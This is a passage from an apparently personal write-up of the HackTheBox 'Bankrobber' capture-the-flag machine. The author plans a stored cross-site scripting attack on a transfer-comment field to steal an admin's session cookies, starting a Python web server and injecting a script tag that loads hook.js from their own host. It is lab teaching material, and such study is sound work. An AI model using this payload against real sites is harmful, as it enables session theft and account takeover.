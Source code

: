 ![alert-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/alert-14.png)


What? the transfer is on hold to be reviewed by the admin? 


This means that the admin probably has to login to he's account, get redirected to the admin panel where he should see our transfer request displayed in some form or another. In other words, we can potentially control what gets rendered to the admin panle. This screams `XSS`! 


We also know that a logged in user has he's credentials included in every request he makes to the site in the form of cookies. This means that we can try and steal the admin's credentials by sending an XSS payload in one of the transfer request parameters. I'm thinking about the comments parameter, since it has mentioed in the `notes.txt` file we read earlier. 


To test for this vulnerability, I start a simple python web server using:

```bash
python3 -m http.server 80
```

And I send the following payload as the a comment to a new transfer request: 

```html
<script src=http://10.10.14.89/hook.js></script>
```
